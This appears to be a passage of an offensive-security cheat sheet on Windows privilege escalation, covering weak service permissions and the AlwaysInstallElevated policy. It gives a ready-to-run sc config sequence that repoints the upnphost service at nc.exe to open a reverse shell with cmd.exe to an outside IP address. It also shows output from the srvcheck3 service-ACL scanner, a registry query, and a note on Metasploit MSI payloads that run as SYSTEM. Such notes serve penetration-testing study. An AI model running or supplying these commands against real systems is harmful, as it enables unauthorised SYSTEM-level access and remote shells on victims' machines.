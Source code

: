exploit/windows/local/service\_permissions&#x20;

### Manual

\# **NOTE: spaces are mandatory for this exploit to work ! **

```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe" 
sc qc upnphost 
sc stop upnphost
sc start upnphost
```

### Srvcheck3&#x20;

```
C:\Users\hacker\Downloads>.\srvcheck3.exe -l 
 Srvcheck 3 - Windows Services ACL permission Scanner 
 (c) 2006 - 2008 Andres Tarasco - atarasco@gmail.com 
 * PRIVATE BUILD for PENTESTERS - 
http://www.tarasco.org
 
[+] Listing Vulnerable Services... 
    [Apache2.4]         Apache2.4 
    Status: 0x4 
    Context:            LocalSystem 
    Parameter:          "c:\xampp\apache\bin\httpd.exe" -k runservice 
[+] Analyzed 400 Services in your system 
[+] You were Lucky. 1 vulnerable services found 
```



### Resource

* [https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)



## AlwaysInstallElevated

Group Policy Setting that allows any \*.msi to install with elevated privilege&#x20;

Attack: Compile payload as \*.msi&#x20;

The easiest method to determine if this issue exist on the host is to query the following registry keys:&#x20;

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`&#x20;

### Metasploit&#x20;

The easiest and the fastest way to escalate privileges is via the Metasploit Framework which contains a module that can generate an MSI package with a simple payload that it will be executed as SYSTEM on the target host and it will be removed automatically to prevent the installation of being registered with the operating system.&#x20;
